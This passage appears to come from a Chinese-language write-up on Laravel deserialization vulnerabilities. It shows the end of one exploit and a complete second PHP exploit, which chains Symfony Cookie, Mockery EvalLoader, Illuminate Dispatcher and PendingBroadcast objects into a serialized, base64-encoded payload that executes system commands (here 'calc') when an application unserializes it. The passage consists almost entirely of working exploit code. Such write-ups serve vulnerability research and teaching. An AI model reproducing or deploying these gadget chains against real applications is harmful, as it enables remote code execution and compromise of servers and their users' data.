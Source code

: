 ```php
    echo base64_encode(serialize(new PendingBroadcast()));
}
?>
```

### exp-2
```php
<?php
namespace Symfony\Component\HttpFoundation {
    class Cookie {
        protected $name = "H3rmesk1t";
    }
}

namespace Mockery\Generator {
    use Symfony\Component\HttpFoundation\Cookie;
    class MockDefinition {
        protected $config;
        protected $code;
        public function __construct($code) {
            $this->config = new Cookie();
            $this->code = $code;
        }
    }
}

namespace Mockery\Loader {
    class EvalLoader {}
}

namespace Illuminate\Bus {
    use Mockery\Loader\EvalLoader;
    class Dispatcher {
        protected $queueResolver;
        public function __construct() {
            $this->queueResolver = [new EvalLoader(), 'load'];
        }
    }
}

namespace Illuminate\Broadcasting {
    use Illuminate\Bus\Dispatcher;
    use Mockery\Generator\MockDefinition;
    class BroadcastEvent {
        public $connection;
        public function __construct() {
            $this->connection = new MockDefinition("<?php system('calc');?>");
        }
    }
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct() {
            $this->events = new Dispatcher();
            $this->event = new BroadcastEvent();
        }
    }
    echo base64_encode(serialize(new PendingBroadcast()));
}
?>
```
### POP链利用流程图
